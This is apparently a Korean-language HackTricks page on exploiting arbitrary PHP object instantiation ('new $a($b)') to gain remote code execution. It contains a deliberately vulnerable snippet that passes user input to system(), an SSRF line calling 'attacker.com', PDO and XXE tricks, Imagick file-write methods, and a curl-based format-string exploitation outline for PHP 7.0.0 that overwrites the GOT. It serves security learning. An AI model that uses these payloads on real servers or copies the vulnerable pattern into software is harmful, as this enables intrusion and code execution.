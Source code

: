 # PHP - RCE를 악용한 객체 생성: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

이 문서는 기본적으로 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

예를 들어 `new $_GET["a"]($_GET["a"])` 같은 임의 객체 생성은 Remote Code Execution (RCE)로 이어질 수 있으며, 자세한 내용은 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 나와 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## 커스텀 클래스 또는 Autoloading을 통한 RCE

문법 `new $a($b)`는 객체를 인스턴스화하는 데 사용되며, **`$a`**는 클래스 이름을 나타내고 **`$b`**는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수들은 GET/POST 같은 사용자 입력에서 유래할 수 있으며, 문자열이나 배열일 수 있고, JSON에서는 다른 타입으로 나타날 수 있습니다.

아래 코드 스니펫을 고려해 보자:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우 `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령(예: `uname -a`)으로 설정하면 해당 명령이 실행됩니다.

**Autoloading functions**는 해당 클래스에 직접 접근할 수 없는 경우 악용될 수 있습니다. 이 함수들은 필요할 때 파일에서 클래스를 자동으로 로드하며 `spl_autoload_register` 또는 `__autoload`로 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
오토로딩의 동작은 PHP 버전에 따라 달라져 다양한 RCE 가능성을 제공한다.

## RCE via 내장 클래스

커스텀 클래스나 오토로더가 없을 때는 **내장 PHP 클래스**만으로도 RCE가 가능할 수 있다. 이러한 클래스의 수는 PHP 버전과 확장에 따라 대략 100~200개 사이이며, `get_declared_classes()`로 나열할 수 있다.

관심 있는 생성자들은 리플렉션 API를 통해 식별할 수 있다. 예시와 자세한 내용은 다음 예제 및 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)를 참조하면 된다.

**RCE via 특정 메서드를 통한 사례에는 다음이 포함된다:**

### **SSRF + Phar Deserialization**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하며, 임의의 URL에 연결할 수 있다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하여 PHP 8.0 이전 버전에서 deserialization 공격으로 이어질 수 있습니다.

### **Exploiting PDOs**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있게 하며, 잠재적으로 파일 생성이나 기타 상호작용을 가능하게 할 수 있습니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

libxml2의 버전에 따라, PHP 5.3.22 및 5.4.12까지의 버전은 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다.

## RCE via Imagick Extension

프로젝트의 의존성 분석에서, **Imagick**이 새로운 객체를 인스턴스화함으로써 **command execution**에 이용될 수 있음이 발견되었습니다. 이는 취약점 악용의 기회를 제공합니다.

### VID parser

VID parser가 파일시스템의 임의 경로에 콘텐츠를 쓸 수 있는 기능을 가지고 있음이 확인되었습니다. 이는 웹에서 접근 가능한 디렉터리에 PHP 쉘을 배치하여 Remote Code Execution (RCE)을 달성할 수 있음을 의미합니다.

#### VID Parser + File Upload

PHP가 업로드된 파일을 `/tmp/phpXXXXXX`에 임시 저장한다는 점을 주목하세요. Imagick의 VID parser는 **msl** 프로토콜을 이용해 파일 경로의 와일드카드를 처리할 수 있어, 임시 파일을 특정 위치로 옮기는 것이 가능합니다. 이 방법은 파일시스템 내에서 임의 파일 쓰기를 달성할 수 있는 또 다른 수단을 제공합니다.

### PHP Crash + Brute Force

[**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제되기 전에 서버 크래시를 유발하는 파일을 업로드하는 것을 포함합니다. 임시 파일의 이름을 brute-forcing하면 Imagick이 임의의 PHP 코드를 실행할 수 있게 됩니다. 다만 이 기법은 구버전의 ImageMagick에서만 효과적인 것으로 확인되었습니다.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

사용자 입력이 클래스 이름을 제어할 때(예: `new $_GET['model']()`), PHP 7.0.0은 `Throwable` 리팩터링 과정에서 일시적인 버그를 도입했습니다. 이 버그로 인해 엔진이 클래스 이름을 해석할 때 이를 printf 형식 문자열로 잘못 취급했습니다. 이는 PHP 내부에서 classic printf-style primitives를 가능하게 하여, `%p`를 통한 leaks, 폭(width) 지정자를 이용한 write-count 제어, 그리고 `%n`을 이용한 프로세스 내부 포인터(예: ELF 빌드의 GOT 엔트리)에 대한 arbitrary writes를 허용합니다.

Minimal repro vulnerable pattern:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (from the reference):
- 클래스 이름의 `%p`를 통해 주소를 leak하여 쓰기 가능한 대상(writable target)을 찾음:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- 정확한 바이트 수를 설정하기 위해 positional parameters와 width specifiers를 사용한 다음, `%n`을 사용해 스택에서 접근 가능한 주소에 그 값을 기록한다. 목표는 GOT 슬롯(예: `free`)을 겨냥해 부분적으로 `system`으로 덮어쓰는 것이다.
- 셸 파이프를 포함한 클래스 이름을 전달해 하이재킹된 함수를 트리거하여 `system("id")`를 호출한다.

Notes:
- PHP 7.0.0에서만 동작함(Bug [#71105](https://bugs.php.net/bug.php?id=71105)); 이후 릴리스에서 수정됨. Severity: critical if arbitrary class instantiation exists.
- 일반적인 페이로드는 여러 `%p`를 연속적으로 사용해 스택을 탐색한 다음, `%.<width>d%<pos>$n`으로 부분 덮어쓰기를 수행한다.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
